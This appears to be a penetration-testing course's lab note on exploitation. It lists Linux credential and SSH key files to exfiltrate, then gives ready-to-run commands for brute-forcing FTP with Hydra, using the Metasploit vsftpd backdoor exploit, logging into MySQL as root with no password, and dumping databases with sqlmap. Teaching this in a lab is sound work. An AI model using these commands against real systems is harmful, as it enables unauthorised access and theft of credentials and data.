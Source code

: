 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# **Exploitation**
- Exploitation is when we take our enumerated targets and capitalize on them.
- REMEMBER WHAT I SAID ABOUT CON COLLEGE
- As you progress through the exploition process, document your results to the best of your ability for your report. Feel free to look ahead to Lab 5 if you need guidance on what to document.

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce and Exploit FTP Manually
- Hydra is a credential bruteforcing tool included with Kali Linux
	- Type 'hydra -hh' in your terminal to view Hydra's full functioanlity:
- To bruteforce with Hydra, we will once again use wordlists, but this time we will use credential lists
	- In your Kali terminal type the following:
		- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
			- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
			- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder.
	- Now that we have some credentials from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential form our bruteforce attack:
			- Username: "user" : Password: "user"
			- Check the current working directory with "pwd"
			- Check the folders and files with "dir"
			- Move back a directory with "cd .."
			- One more time "cd .."
			- "dir" to view all files and folders again
			- See any files worth exfiltrating?
			- Use "get <filename>" in your terminal to retrieve them

## Exploiting FTP With Metasploit
- In your Kali terminal type **msfconsole**
- This is where our vulnerability research comes in handy.
- **msf** > search 'ftp'
	- [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- **msf** > use exploit/unix/ftp/vsftpd_234_backdoor
- **msf** > set RHOSTS 192.168.9.239
- **msf** > run

## Exploiting MySql Manually
- To log into MySql, we use the following login template in our terminals:
	- mysql -h {hostname} -u username -p {databasename}
- Since we don't have any credentials yet, let's do some research on default MySql creds
	- [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
- Using info from our research, we can try the default credentials for MySql
- In your terminal type:
	- mysql -u root -h 192.168.1.103 -p
		- Here we use the -u flag to specify the username 'root'
		- Since the default password for MySql is empty, we leave the -p (password) flag empty
- Using MySQL in the terminal:
	- From the mysql> prompt:
	- SHOW DATABASES
		- "use 'database_name'"
			- SHOW TABLES

## Exploiting MySql With SqlMap
- You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
- In your terminal, type the following:
	- sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/ 
	- This step dumps the contents of the entire database to our machine. Take a look.
	

